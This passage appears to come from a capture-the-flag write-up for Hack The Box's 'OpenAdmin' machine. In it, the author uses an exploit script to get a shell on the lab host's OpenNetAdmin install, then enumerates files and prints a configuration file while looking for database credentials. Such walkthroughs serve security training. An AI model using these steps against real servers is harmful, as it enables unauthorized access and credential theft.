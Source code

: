 That's better, we now have a semi-interactive shell. Initial enurmeration discovers a config file:

```text
┌──(root💀kali)-[~/htb/openadmin]
└─# ./test.sh http://10.10.10.171/ona/
$ pwd
/opt/ona/www

$ ls -l
drwxrwxr-x 2 www-data www-data 4096 Jan  3  2018 config
-rw-rw-r-- 1 www-data www-data 1949 Jan  3  2018 config_dnld.php
-rw-rw-r-- 1 www-data www-data 4160 Jan  3  2018 dcm.php
drwxrwxr-x 3 www-data www-data 4096 Jan  3  2018 images
drwxrwxr-x 9 www-data www-data 4096 Jan  3  2018 include
-rw-rw-r-- 1 www-data www-data 1999 Jan  3  2018 index.php
lrwxrwxrwx 1 www-data www-data   18 Jul 26 14:26 ld.so.preload -> /etc/ld.so.preload
drwxrwxr-x 5 www-data www-data 4096 Jan  3  2018 local
-rw-rw-r-- 1 www-data www-data 4526 Jan  3  2018 login.php
-rw-rw-r-- 1 www-data www-data 1106 Jan  3  2018 logout.php
drwxrwxr-x 3 www-data www-data 4096 Jan  3  2018 modules
drwxrwxr-x 3 www-data www-data 4096 Jan  3  2018 plugins
drwxrwxr-x 2 www-data www-data 4096 Jan  3  2018 winc
drwxrwxr-x 3 www-data www-data 4096 Jan  3  2018 workspace_plugins

$ ls -l config
-rw-rw-r-- 1 www-data www-data 1905 Jan  3  2018 auth_ldap.config.php
-rw-rw-r-- 1 www-data www-data 9983 Jan  3  2018 config.inc.php

$ cat config/config.inc.php
<?php

///////////////////////   WARNING   /////////////////////////////
//           This is the site configuration file.              //
//                                                             //
//      It is not intended that this file be edited.  Any      //
//      user configurations should be in the local config or   //
//      in the database table sys_config                       //
//                                                             //
/////////////////////////////////////////////////////////////////

// Used in PHP for include files and such
// Prefix.. each .php file should have already set $base and $include
// if it is written correctly.  We assume that is the case.
$base;
$include;

$onabase = dirname($base);

//$baseURL = preg_replace('+' . dirname($_SERVER['DOCUMENT_ROOT']) . '+', '', $base);
//$baseURL = preg_replace('+/$+', '', $baseURL);

// Used in URL links
$baseURL=dirname($_SERVER['SCRIPT_NAME']); $baseURL = rtrim($baseURL, '/');
$images = "{$baseURL}/images";

// help URL location
$_ENV['help_url'] = "http://opennetadmin.com/docs/";

<SNIP>

// Include the localized Database settings
$dbconffile = "{$base}/local/config/database_settings.inc.php";
```
